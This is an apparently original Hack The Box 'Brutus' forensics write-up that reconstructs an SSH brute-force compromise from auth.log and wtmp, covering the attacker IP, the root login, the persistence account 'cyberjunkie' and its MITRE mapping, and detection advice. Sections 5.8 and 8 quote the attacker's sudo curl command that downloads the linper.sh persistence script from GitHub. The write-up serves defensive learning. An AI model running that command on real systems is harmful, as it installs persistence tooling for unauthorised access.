








# HTB Sherlock: Brutus — Digital Forensics Investigation

**Platform:** Hack The Box  
**Difficulty:** Very Easy  
**Category:** DFIR / Linux Forensics  
**Primary artifacts:** `auth.log`, `wtmp`  
**Investigation status:** Completed

---

## 1. Executive Summary

This investigation examines suspicious SSH authentication activity against a Linux server. The objective was to determine whether an attacker successfully gained access through SSH brute-force activity, identify the compromised account, reconstruct the attacker's interactive session, and investigate post-compromise actions.

Analysis of the supplied `auth.log` revealed numerous failed SSH authentication attempts originating from `65.2.161.68`. The same IP address subsequently authenticated successfully as the `root` user.

The investigation also identified an additional local account named `cyberjunkie`, which was granted elevated privileges through the sudo group. The authentication logs further recorded the execution of a privileged `curl` command used to retrieve a shell script from a GitHub repository.

The findings indicate successful unauthorized access, account creation for persistence, and subsequent privileged command execution.

## 2. Investigation Objectives

The investigation aimed to:

1. Identify the IP address responsible for SSH brute-force activity.
2. Determine whether the brute-force activity resulted in successful authentication.
3. Identify the compromised user account.
4. Establish the interactive SSH login time using WTMP.
5. Identify the SSH session number.
6. Investigate account creation and privilege escalation.
7. Determine when the attacker's first SSH session ended.
8. Identify the command executed through sudo to download an additional script.

## 3. Evidence and Artifacts

The investigation focused on two Linux artifacts.

### 3.1 auth.log

The Linux authentication log records authentication-related activity, including:

- Successful and failed SSH authentication.
- Authentication attempts involving different usernames.
- SSH session activity.
- User account creation events.
- Privileged command execution through sudo.

Relevant log entries can include timestamps, service names, process IDs, usernames, remote IP addresses, and authentication results.

### 3.2 wtmp

The `wtmp` artifact maintains historical login and logout information.

It can help investigators identify:

- User login sessions.
- Interactive terminal activity.
- Login and logout timestamps.
- Remote host information.
- Session duration.

Unlike `auth.log`, which records authentication events, WTMP helps establish when an interactive terminal session was created and when it ended.

**Important:** WTMP is a binary artifact. Its decoded timestamps may be presented according to the timezone configured in the analysis environment. The timezone must be checked before reporting timestamps as UTC.

## 4. Investigation Methodology

The investigation followed an evidence-driven process:

1. Examine authentication events in `auth.log`.
2. Identify repeated failed SSH authentication attempts.
3. Correlate the suspicious source IP with successful authentication events.
4. Review WTMP records to identify the interactive login.
5. Correlate the SSH session number with the authentication logs.
6. Search for account creation and privilege-related events.
7. Identify the end of the attacker's first SSH session.
8. Examine sudo activity to identify commands executed with elevated privileges.
9. Map the persistence activity to MITRE ATT&CK.

## 5. Investigation and Findings

### 5.1 Identify the Brute-Force Source IP

**Question 1:** What is the IP address used by the attacker to carry out a brute-force attack?

The authentication logs contained numerous failed SSH authentication attempts originating from the same remote IP address.

The observed attempts included repeated authentication failures involving usernames such as `admin` and `backup`. Multiple attempts occurred within a very short period.

This activity is consistent with automated password-guessing behavior.

A useful investigation question is:

> Could a human realistically attempt authentication this frequently and consistently by hand?

When the answer is unlikely, the activity deserves further investigation.

**Evidence screenshot:** `### Bruteforce Evidence

`

<details>
<summary>Observed evidence</summary>

- Repeated SSH authentication failures.
- Multiple attempts against usernames.
- A common source IP address.
- Attempts occurring within seconds of one another.

</details>

**Answer:**

`65.2.161.68`

### 5.2 Confirm Successful Authentication

**Question 2:** What is the username of the account compromised by the brute-force attack?

Identifying failed authentication attempts is not enough to establish that an attacker successfully gained access.

The investigation must also identify successful authentication events.

The following command was used to filter successful authentication entries:

```bash
cat auth.log | grep -i "Accepted"
```

The resulting entries included:

```text
Accepted password for root from 65.2.161.68
```

This confirms that the suspicious IP address successfully authenticated as the `root` user.

The `Accepted password` message is an important indicator of successful SSH password authentication.

**Evidence screenshot:** `### Successful Login

`

**Answer:**

`root`

### 5.3 Identify the Interactive Login Timestamp

**Question 3:** What is the UTC timestamp when the attacker manually logged in and established an interactive terminal session?

The successful authentication event and the creation of an interactive terminal session are related, but they do not necessarily have identical timestamps.

The authentication log showed successful root authentication at:

```text
2024-03-06 06:32:44
```

The WTMP artifact was examined to identify the interactive terminal session.

The investigation output included a decoded WTMP record associated with:

- Username: `root`
- Remote IP: `65.2.161.68`
- Terminal: `pts/1`
- Displayed timestamp: `2024/03/06 01:32:45`

The challenge's reported answer is:

```text
2024-03-06 06:32:45 UTC
```

**Timezone verification note:** The submitted WTMP screenshot displays `01:32:45`, while the reported challenge answer is `06:32:45 UTC`. This is a five-hour difference. The decoding environment's timezone must be verified before treating the displayed WTMP time as a UTC timestamp. Both values are retained here so the discrepancy is transparent.

**Evidence screenshot:** `

`

**Answer reported for the challenge:**

`2024-03-06 06:32:45 UTC`

### 5.4 Identify the SSH Session Number

**Question 4:** What is the attacker's SSH session number for the compromised account?

The authentication log contains session-related events generated during SSH login activity.

The relevant entry showed:

```text
New session 37 of user root.
```

This associates SSH session number `37` with the compromised root account.

The session number is useful when correlating session creation and termination events.

**Evidence screenshot:** `

`

**Answer:**

`37`

### 5.5 Identify the Persistence Account

**Question 5:** What new user account did the attacker create as part of their persistence strategy?

Attackers may create additional user accounts after obtaining access to a compromised system. Such accounts can provide another way to maintain access.

The authentication log was searched for account creation activity.

The following command was used:

```bash
cat auth.log | grep "useradd"
```

The output contained:

```text
new user: name=cyberjunkie, UID=1002, GID=1002,
home=/home/cyberjunkie, shell=/bin/bash
```

This confirms the creation of a local account named `cyberjunkie`.

Further log entries showed sudo activity associated with this account. The account was granted elevated privileges through membership in the sudo group.

Membership in the sudo group allows an authorized user to execute commands with administrative privileges.

**Evidence screenshot:** `

`

**Answer:**

`cyberjunkie`

### 5.6 Map the Persistence Activity to MITRE ATT&CK

**Question 6:** What MITRE ATT&CK sub-technique ID describes persistence through creating a new account?

The investigation established that the attacker created a new local user account on the compromised Linux host.

This behavior maps to the MITRE ATT&CK technique:

- **Tactic:** Persistence
- **Technique:** T1136 — Create Account
- **Sub-technique:** T1136.001 — Create Account: Local Account

The sub-technique is appropriate because the account was created locally on the compromised system.

**Evidence screenshot:** `

`

**Answer:**

`T1136.001`

### 5.7 Determine When the First SSH Session Ended

**Question 7:** What time did the attacker's first SSH session end according to `auth.log`?

After identifying session number `37`, the investigation returned to the authentication log to identify the corresponding session termination event.

The log showed that session `37` closed at:

```text
2024-03-06 06:37:24
```

This establishes the reported end time of the attacker's first SSH session.

**Evidence screenshot:** Add the screenshot showing the session 37 termination entry as `

`.

**Answer:**

`2024-03-06 06:37:24`

### 5.8 Identify the Privileged Download Command

**Question 8:** What full command did the attacker execute using sudo to download a script?

Authentication logs are not primarily designed to record every command executed on a system. However, commands executed through sudo can appear in the authentication log.

The investigation identified a sudo command executed by the `cyberjunkie` account with root privileges.

The recorded command was:

```bash
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

The command uses `curl` to retrieve a shell script from a GitHub repository.

This is relevant post-compromise activity because downloading additional scripts can be part of further system investigation, exploitation, or persistence activity. The command alone does not establish that the downloaded script was successfully executed.

**Evidence screenshot:** `

`

**Answer:**

```bash
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

## 6. Investigation Timeline

The following timeline consolidates the reported findings. Times are reproduced as reported; the WTMP timezone discrepancy is documented separately.

| Date and time | Event | Evidence |
|---|---|---|
| 2024-03-06 06:31:33–06:31:35 | Repeated SSH authentication failures from `65.2.161.68` | `auth.log` |
| 2024-03-06 06:32:44 | Successful root authentication and SSH session creation | `auth.log` |
| 2024-03-06 06:32:45 UTC | Reported interactive terminal login | `wtmp` |
| 2024-03-06 06:37:24 | First SSH session ended | `auth.log` |
| 2024-03-06 06:34 (exact seconds to be verified) | Creation of `cyberjunkie` | `auth.log` |
| 2024-03-06 06:37:34 | Successful authentication for `cyberjunkie` | `auth.log` |
| 2024-03-06 06:39:38 | Privileged `curl` command recorded | `auth.log` |

## 7. MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique | Observed behavior |
|---|---|---|---|
| Persistence | T1136.001 | Create Account: Local Account | Creation of `cyberjunkie` |

This mapping is based on the local account creation observed in the investigation.

## 8. Indicators of Compromise

| Indicator | Value | Context |
|---|---|---|
| Source IP | `65.2.161.68` | SSH brute-force attempts and successful root authentication |
| Compromised account | `root` | Successful SSH authentication |
| Additional account | `cyberjunkie` | Newly created local account |
| Download URL | `https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` | Script retrieval command recorded through sudo |

These indicators are specific to the challenge environment and should not automatically be treated as indicators of a real-world campaign.

## 9. Detection and Defensive Opportunities

The investigation highlights several useful defensive monitoring opportunities.

### SSH brute-force detection

Monitor for:

- High volumes of failed SSH authentication attempts.
- Repeated failures from a common source IP.
- Attempts involving multiple usernames.
- Successful authentication following a sequence of failures.

### Privileged account monitoring

Monitor for:

- Unexpected local account creation.
- Changes to privileged group membership.
- New users added to the sudo group.
- Unexpected administrative activity from newly created accounts.

### Suspicious command execution

Monitor sudo logs for unexpected commands, particularly utilities such as `curl` and `wget` retrieving scripts from external locations.

### Session correlation

Correlate SSH authentication records with login and logout records to reconstruct interactive activity and establish session duration.

## 10. Lessons Learned

This investigation demonstrates the importance of correlating multiple Linux forensic artifacts rather than relying on a single log source.

Key lessons:

1. Repeated authentication failures from one source can indicate automated brute-force activity.
2. Successful authentication records are essential to determine whether access was obtained.
3. Authentication time and interactive terminal creation time are not necessarily identical.
4. WTMP can provide useful information about historical interactive sessions.
5. Session identifiers help correlate authentication and session lifecycle events.
6. Unexpected local account creation and sudo group membership can indicate persistence activity.
7. Sudo logs can provide valuable evidence of privileged command execution.
8. Timezone verification is important when constructing an accurate incident timeline.

## 11. References

- Hack The Box — Brutus Sherlock
- MITRE ATT&CK — [T1136: Create Account](https://attack.mitre.org/techniques/T1136/)
- MITRE ATT&CK — [T1136.001: Local Account](https://attack.mitre.org/techniques/T1136/001/)

## 12. Investigation Completion

The Brutus investigation identified:

- The IP address responsible for brute-force activity.
- Successful compromise of the root account.
- The reported interactive login and session details.
- A newly created local account with elevated privileges.
- The end of the first SSH session.
- A privileged command used to retrieve an additional script.

**Investigation completed.**

---
## HTB Completion Badge


*This report is an original educational writeup based on the Hack The Box Brutus investigation and the evidence examined during the lab.*
